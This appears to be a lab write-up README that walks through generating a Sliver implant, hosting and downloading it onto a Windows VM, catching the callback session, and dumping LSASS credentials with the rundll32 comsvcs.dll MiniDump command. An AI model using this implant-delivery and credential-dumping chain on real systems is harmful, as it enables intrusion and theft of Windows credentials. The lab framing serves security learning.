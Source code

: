 # 🧪 Sliver Implant & Credential Dump

This section walks through deploying a Sliver implant on a Windows VM and dumping LSASS credentials. Screenshots are provided for visual reference.

---

## 💉 Implant Generation & Delivery

- Generated an HTTP implant payload using Sliver:
  ```bash
  generate --http 192.168.x.x --save /opt/sliver
  ```


- Hosted the payload using a temporary Python HTTP server:
  ```bash
  cd /opt/sliver
  python3 -m http.server 80
  ```

- Downloaded the implant onto the Windows VM:
  ```powershell
  IWR -Uri http://192.168.x.x/NEW_SHAKEDOWN.exe -Outfile C:\Users\localadmin\Downloads\NEW_SHAKEDOWM.exe
  ```

[Implant on Windows VM](screenshot/Implant%20on%20Windows%20Vm.png)

---

## 📡 Listener Setup & Implant Execution

- Started an HTTP listener in Sliver:
  ```bash
  http
  ```

[Run Sliver](screenshot/Run%20Sliver.png)

- Executed the implant manually on the Windows VM:
  ```powershell
  .\New_SHAKEDOWN.exe
  ```

[Sliver Implant Execution](screenshot/Sliver%20implant.png)

- Verified the callback and checked active sessions:
  ```bash
  sessions
  ```

[Sliver Session](screenshot/Sliver%20Session.png)

- Interacted with the session:
  ```bash
  use <session_id>
  ```
[Get System](screenshot/Get%20System%20sliver.png)

[Verify Established Implant Connection](screenshots/Verify%20Established%20Implant%20Connection.png)

---

## 🧠 LSASS Credential Dump

- Attempted to dump LSASS memory using:
  ```bash
  execute rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump [PID] C:\\Windows\\Temp\\lsass.dmp full
  ```

